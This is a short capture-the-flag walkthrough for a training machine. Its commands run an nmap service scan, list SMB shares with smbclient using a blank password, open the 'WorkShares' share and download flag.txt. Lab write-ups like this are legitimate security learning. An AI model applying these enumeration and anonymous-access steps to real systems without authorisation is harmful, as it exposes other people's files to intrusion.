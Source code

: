 1. **Scan all the ports and determine service and version of open ports**
```bash
nmap -sV [ip machine]
```
--> port 445/tcp - open - microsoft-ds?


2. **List the files stored on the share**
```bash
smbclient -L [ip machine]
	Password: [blank]
```
-->   ADMIN$ - Disk - Remote Admin /
        C$ - Disk - Default share / 
        IPC$ - IPC - Remote IPC / 
        **WorkShares - Disk**      


3. **Connect to the machine via "smb"**
```bash
smbclient \\\\[ip machine]\\Workshares
	Password: [blank]
```
--> **MACHINE PWNED!**


4. **Move inside the machine and Capture the flag**
```bash
smb: \> ls
	Amy.J
	James.P

smb: \> cd James.P

smb: \James.P\> ls
	flag.txt

smb: \James.P\> get flag.txt
```
--> Transfer completed!